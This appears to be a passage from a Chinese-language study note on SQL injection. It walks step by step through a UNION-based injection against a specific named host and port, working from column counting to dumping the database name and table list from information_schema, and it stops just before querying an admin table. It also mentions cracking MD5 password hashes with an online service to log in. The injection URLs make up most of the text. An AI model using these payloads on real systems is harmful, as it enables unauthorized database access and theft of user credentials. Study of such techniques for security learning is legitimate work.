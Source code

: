    

11. 解密过后即可通过用户名和密码登录到系统当中!

    md5在线解密:

    > https://www.cmd5.com/

#### 记针对http://www.wabjtam.ml:12880的联合注入:

1. 打开网站,在新闻上传页面找到注入点,

   ```
   www.wabjtam.ml:12880/News/newsView.php?newsId=1    新闻信息页面存在注入点
   ```

2. 通过order by爆出列数

   ```
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=1%20order%20by%206
   ```

   得到列数为5,则联合查询也需要五个字段

3. 构造一个不存在的参数,使其查不到原有内容:

   ```
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1
   ```

4. 判断各个参数显示的位置:

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,3,4,5
   ```

5. 找一个可以显示较多内容的文本框填入查询参数,查询当前网站的库名:

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,database(),4,5
   ```

   得到当前库名为:double_fish

6. 根据库名在information_schema库查所有表

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema = "double_fish"
   ```

   得到如下表:

   ![image-20220906111638486](SQL注入.assets/image-20220906111638486.png)

7. 可以看出,t_admin表大概率是保存用户信息的表,优先查询t_admin表的字段和内容:
